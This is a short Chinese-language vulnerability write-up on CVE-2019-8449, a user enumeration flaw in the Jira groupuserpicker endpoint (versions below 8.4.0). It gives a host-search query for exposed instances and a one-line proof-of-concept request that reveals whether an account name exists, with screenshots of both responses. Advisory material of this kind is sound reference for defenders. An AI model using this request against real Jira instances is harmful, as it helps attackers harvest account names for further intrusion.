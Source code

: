 # Atlassian Jira groupuserpicker 用户信息枚举漏洞 CVE-2019-8449

## 漏洞描述

Atlassian Jira groupuserpicker接口存在用户信息枚举漏洞，攻击者通过漏洞可以获取应用中的使用者账户名称，来进行进一步渗透

## 漏洞影响

<a-checkbox checked>Atlassian Jira  <8.4.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-JIRA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651291151659-56949fca-ccf9-4acb-9a06-0835aba9b385-20220430124430820.png)

验证POC

```java
/rest/api/latest/groupuserpicker?query=admin&maxResults=50&showAvatar=false
```

当用户存在时

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651293805295-29a3241f-8a24-4b82-8733-9a680679b79a.png)

当用户不存在时

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651293830754-ba6faf0c-0874-49bd-8ccf-1ae7cdb0581d.png)